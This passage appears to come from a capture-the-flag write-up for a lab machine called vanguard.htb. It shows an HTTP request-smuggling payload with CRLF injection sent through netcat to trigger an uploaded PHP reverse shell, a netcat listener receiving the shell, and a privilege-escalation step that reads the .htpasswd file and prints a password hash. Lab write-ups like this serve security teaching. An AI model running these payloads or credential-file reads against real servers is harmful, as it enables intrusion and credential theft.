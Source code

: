 Send request smuggling request via netcat or burp:
```sh
$ echo "GET /leaders/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/uploads/rev.php HTTP/1.1\r\nHost: vanguard.htb\r\nAccept: */*\r\n\r\n" | nc vanguard.htb 80
```
```text
GET /leaders/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/uploads/rev.php HTTP/1.1
Host: vanguard.htb
Accept: */*


```
URL-Decoded:
```text
GET /leaders/1 HTTP/1.1
Host: localhost

GET /uploads/rev.php HTTP/1.1
User-Agent: nc/0.0.1
Host: 10.129.234.95
Accept: */*


```

A reverse shell can then be obtained:
```sh
$ nc -nlvp 4444         
Ncat: Version 7.94 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.251.192:53406.
bash: cannot set terminal process group (271): Inappropriate ioctl for device
bash: no job control in this shell
[http@vanguard uploads]$ 
```

## Privilege Escalation (http -> maximus)
Access the `/etc/httpd/.htpasswd` file that protects the `/uploads` directory as notated in the Apache server config:
```text
	In file: /etc/httpd/conf/httpd.conf
	 556: <VirtualHost *:80>
	 568:   <Location /uploads*>
	 571:     AuthUserFile /etc/httpd/.htpasswd
	    :   </Location>
	    : </VirtualHost>
```

```sh
[http@vanguard uploads]$ cat /etc/httpd/.htpasswd
maximus-webadmin:$apr1$4uK/teeQ$8gAFoYWl7ba5Vy7Bjy3nK/
```
